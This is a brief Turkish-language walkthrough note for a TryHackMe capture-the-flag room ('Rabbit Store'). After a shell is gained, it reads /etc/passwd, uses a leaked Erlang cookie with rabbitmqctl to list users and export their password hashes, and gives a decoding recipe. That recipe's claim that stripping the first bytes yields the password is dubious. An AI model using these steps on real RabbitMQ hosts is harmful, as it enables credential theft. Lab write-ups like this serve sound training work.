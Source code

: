 
https://0xb0b.gitbook.io/writeups/tryhackme/2025/rabbit-store

shell aldıkdan sonra 
```bash
cat /etc/passwd 
```
eğer cıktısın da:

![image](https://0xb0b.gitbook.io/~gitbook/image?url=https%3A%2F%2F2148487935-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FoqaFccsCrwKo1CHmLRKW%252Fuploads%252FxG9xNZl0ZlMWD5jr0AJS%252Fgrafik.png%3Falt%3Dmedia%26token%3D0a3cad89-c497-4fac-9156-e103f2af3ae7&width=768&dpr=4&quality=100&sign=bc4a778&sv=2)

bu resimdeki gibi ise 

ve elimize cookie geçerse çözdüğümüz ctfin hostuna forge eklenir

```bash
echo "ip forge" >> /etc/hosts
```

statusa bakılır ve 
```bash
sudo rabbitmqctl --erlang-cookie 'UdEX5rcSZi5pg0ow' --node rabbit@forge status
```
userler listelenir

```bash
 sudo rabbitmqctl --erlang-cookie 'UdEX5rcSZi5pg0ow' --node rabbit@forge list_users
```

daha sonra userler ve hasheri export edilir json dosyasına yazdıırlır
``` bash
sudo rabbitmqctl --erlang-cookie 'UdEX5rcSZi5pg0ow' --node rabbit@forge export_definitions users.json
```
daha sonra bu cıkan sonucu tek komutla (algoritmasını çözme) decode etme çıkan sonuç kimin hashini aldıysak şifresidir


algoritma: 
- hash base64 ile decode edilir
- cıkan sonucu hex ile decode edilir boşluklar sinir ve ilk 8 karakter silinir daha sonra kalan ise Şifredir. 

```bash
 echo -n '49e6[REDACTED]BzWF' | base64 -d | xxd -p -c 100
e3d7ba85295d1d16[REDACTED]98073585
```

